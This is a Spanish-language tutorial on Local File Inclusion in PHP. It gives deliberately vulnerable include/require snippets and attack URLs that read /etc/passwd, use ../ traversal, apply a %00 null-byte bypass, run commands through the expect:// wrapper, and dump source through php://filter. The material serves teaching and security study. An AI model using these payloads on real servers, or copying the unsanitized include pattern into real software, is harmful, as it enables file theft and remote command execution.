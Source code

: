 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad 'Local File Inclusion', 'LFI' por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* XSS (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script en PHP:

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Donde podemos leer cualquier archivo del sistema, en este caso el '/etc/passwd'

```
https://localhost/lfi.php?filename=/etc/passwd
```

Es importante aclarar que esta no es solo una vulnerabilidad de PHP, también está presente en otros lenguajes como lo es JSP o ASP.

### [](#header-3)Directory Path Traversal

Es posible que en el código, se nos limite a tener acceso a archivos que se ubican únicamente en una ruta determinada, en este caso '/var/www/html/'.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta establecida si añadimos '../', pudiendo así listar contenido más allá de '/var/www/html/'.

```
https://localhost/lfi.php?filename=../../../etc/passwd
```

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a tener acceso a archivos de una determinada extensión, en este caso 'PHP'.

```php
<?php
	$file = $_GET['filename'];
        require($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo '/etc/passwd', o cualquier otro archivo, lo que estariamos leyendo en realidad sería el archivo '/etc/passwd.php', el cual no existe. 

Sin embargo, si añadimos el nullbyte (`%00`) al final de nuestra cadena de ataque, el '.php' no será tenido en cuenta. 

```
https://localhost/lfi.php?filename=/etc/passwd%00
```

### [](#header-3)Wrappers

PHP cuenta con una serie de 'wrappers', los cuales a menudo pueden ser abusados; por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE).

```
https://localhost/lfi.php?filename=expect://whoami
```

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser Base64 o ROT13. 

Este 'wrapper' es bastante útil si necesitamos leer un archivo en PHP, ya que recordemos, este es un lenguaje interpretado, por lo que si intentáramos leer un archivo PHP, no veríamos nada.

```
https://localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=test.php
```
